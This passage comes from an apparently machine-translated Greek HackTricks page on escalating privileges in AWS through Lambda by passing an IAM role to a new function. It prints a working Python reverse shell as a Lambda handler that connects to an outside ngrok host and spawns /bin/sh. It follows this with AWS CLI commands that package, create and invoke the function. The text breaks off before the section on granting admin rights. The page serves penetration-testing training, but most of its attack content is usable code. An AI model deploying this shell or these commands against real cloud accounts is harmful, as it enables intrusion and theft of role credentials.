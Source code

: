 # AWS - Εscalation προνομίων Lambda

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## lambda

Περισσότερες πληροφορίες σχετικά με το lambda σε:

{% content-ref url="../../aws-security/aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../../aws-security/aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

Οι χρήστες με τα δικαιώματα **`iam:PassRole`, `lambda:CreateFunction`, και `lambda:InvokeFunction`** μπορούν να εξελίξουν τα προνόμιά τους.\
Μπορούν **να δημιουργήσουν μια νέα λειτουργία Lambda και να την αναθέσουν σε έναν υπάρχοντα ρόλο IAM**, χορηγώντας στη λειτουργία τα δικαιώματα που σχετίζονται με αυτόν τον ρόλο. Ο χρήστης μπορεί στη συνέχεια **να γράψει και να μεταφορτώσει κώδικα σε αυτήν τη λειτουργία Lambda (με ένα αντίστροφο κέλυφος για παράδειγμα)**.\
Μόλις η λειτουργία είναι εγκατεστημένη, ο χρήστης μπορεί **να ενεργοποιήσει την εκτέλεσή της** και τις επιθυμητές ενέργειες καλώντας τη λειτουργία Lambda μέσω του API του AWS. Με αυτήν την προσέγγιση, ο χρήστης μπορεί αποτελεσματικά να εκτελέσει εργασίες έμμεσα μέσω της λειτουργίας Lambda, λειτουργώντας με το επίπεδο πρόσβασης που χορηγείται στον ρόλο IAM που τη συνοδεύει.\\

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτό για να πάρει ένα **αντίστροφο κέλυφος και να κλέψει το διακριτικό**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('4.tcp.ngrok.io',14305))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
time.sleep(900)
return 0
```
{% endcode %}
```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
--runtime python3.9 --role <arn_of_lambda_role> \
--handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
## If you have the lambda:InvokeFunctionUrl permission you need to expose the lambda inan URL and execute it via the URL

# List roles
aws iam list-attached-user-policies --user-name <user-name>
```
Μπορείτε επίσης **να καταχραστείτε τα δικαιώματα του ρόλου lambda** από τη λειτουργία lambda ίδια.\
Αν ο ρόλος lambda είχε επαρκή δικαιώματα, θα μπορούσατε να το χρησιμοποιήσετε για να σας χορηγήσει δικαιώματα διαχειριστή: